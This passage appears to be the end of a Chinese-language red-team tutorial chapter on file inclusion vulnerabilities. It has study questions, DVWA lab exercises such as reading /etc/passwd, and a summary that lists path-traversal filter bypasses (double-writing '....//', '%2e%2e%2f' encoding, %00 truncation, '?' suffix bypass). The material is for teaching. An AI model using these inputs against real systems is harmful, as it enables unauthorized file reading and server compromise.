5. 远程文件包含可以用 _______ 符号把后缀当作URL参数，从而绕过后缀限制。

### 简答题

1. 简述文件包含漏洞的原理和产生原因。

2. LFI和RFI有什么区别？哪个危害更大？为什么？

3. 什么是路径穿越/目录遍历？列举至少3种绕过 `../` 过滤的方法。

4. 文件包含漏洞能用来做什么？有哪些危害？

5. 文件包含漏洞应该怎么防御？

### 实操题

1. 在DVWA靶场中完成File Inclusion的low级别练习。

2. 尝试用文件包含读取/etc/passwd和网站的配置文件。

3. 练习路径穿越的各种绕过方法（双写、URL编码等）。

4. 在DVWA的medium级别中，尝试绕过过滤。

5. 编写一个存在文件包含漏洞的PHP脚本（用于学习），然后自己利用它读取文件。

---

## 📝 本章小结

这一章我们学习了文件包含漏洞的基础知识，
让我们来总结一下重点：

### 核心概念
- **文件包含漏洞**：用户输入可控，拼接到文件路径中，导致可以包含任意文件
- **LFI**：本地文件包含，只能包含服务器本地文件
- **RFI**：远程文件包含，可以包含远程URL文件，需要allow_url_include=On

### PHP文件包含函数
- `include()`：出错时警告，继续执行
- `require()`：出错时致命错误，停止执行
- `include_once()`：只包含一次，警告
- `require_once()`：只包含一次，致命错误
- 对漏洞利用来说差别不大

### 漏洞产生原因
- 用户输入可控 + 拼接到文件路径中
- 常见场景：页面切换、语言切换、主题切换、文件查看等

### 漏洞危害
- LFI：读取敏感文件、源码泄露、配合上传/日志GetShell
- RFI：直接执行任意代码，危害极大

### 路径穿越
- 用 `../` 回退上级目录
- 可以跳出限制的目录，访问任意文件

### 目录穿越绕过
- 直接 `../`
- 双写 `....//`
- URL编码 `%2e%2e%2f`
- 双重URL编码
- 绝对路径 `/etc/passwd`
- Windows反斜杠 `\`

### 其他
- %00截断（PHP < 5.3.4）
- RFI中用 `?` 绕过后缀

下一章我们会学习更高级的内容：
**文件包含漏洞进阶**，
包括PHP伪协议、日志包含、session包含、
截断绕过、各种包含GetShell的姿势等等。
敬请期待！

---

## 🔗 相关链接

- [⬅️ 上一章：---](/redteam/day033-advanced-命令执行模块总结)
- [➡️ 下一章：---](/redteam/day035-advanced-文件包含进阶)
- [📖 返回全书目录](/redteam/day118-toc-全书目录)
